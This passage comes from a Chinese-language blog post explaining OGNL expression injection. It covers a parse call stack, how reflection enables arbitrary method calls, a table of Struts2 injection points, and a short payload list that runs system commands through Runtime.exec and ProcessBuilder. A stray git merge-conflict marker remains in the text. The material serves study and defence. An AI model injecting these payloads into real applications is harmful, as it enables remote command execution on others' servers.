 ```
invokeMethod:518, OgnlRuntime (ognl)
callAppropriateMethod:812, OgnlRuntime (ognl)
callMethod:61, ObjectMethodAccessor (ognl)
callMethod:846, OgnlRuntime (ognl)
getValueBody:73, ASTMethod (ognl)
evaluateGetValueBody:170, SimpleNode (ognl)
getValue:210, SimpleNode (ognl)
getValueBody:109, ASTChain (ognl)
evaluateGetValueBody:170, SimpleNode (ognl)
getValue:210, SimpleNode (ognl)
getValue:333, Ognl (ognl)
getValue:378, Ognl (ognl)
getValue:357, Ognl (ognl)
main:11, Test
```

简单地说，OGNL表达式的getValue()解析过程就是先将整个OGNL表达式按照语法树分为几个子节点树，然后循环遍历解析各个子节点树上的OGNL表达式，其中通过Method.invoke()即反射的方式实现任意类方法调用，将各个节点解析获取到的类方法通过ASTChain链的方式串连起来实现完整的表达式解析、得到完整的类方法调用。

### HTTP请求中常见的注入点

HTTP请求中常见的注入点如下表（来自[Struts2著名RCE漏洞引发的十年之思](https://www.freebuf.com/vuls/168609.html)）：

![img](http://www.mi1k7ea.com/2020/03/16/OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/4.png)

### 常用payload

```
//获取context里面的变量
 #user
 #user.name

//使用runtime执行系统命令
@java.lang.Runtime@getRuntime().exec("calc")


//使用processbuilder执行系统命令
(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()

//获取当前路径
@java.lang.System@getProperty("user.dir")
```

## 0x04 Struts2中OGNL执行过程分析

有时间再调试分析，可参考：[浅析 OGNL 的攻防史](https://paper.seebug.org/794/#0x02-ognl)

## 0x05 OGNL攻防史

有时间再详细分析，可参考：[浅析 OGNL 的攻防史](https://paper.seebug.org/794/#0x03-ognl)

## 0x06 参考

[OGNL](http://c.biancheng.net/view/4131.html)

[OGNL表达式注入分析](http://p0desta.com/2019/04/06/从零开始java代码审计系列(三)/)

>>>>>>> c25de16fcceca586d0ba65b6515768c0b556f5db
[浅析 OGNL 的攻防史](https://paper.seebug.org/794/)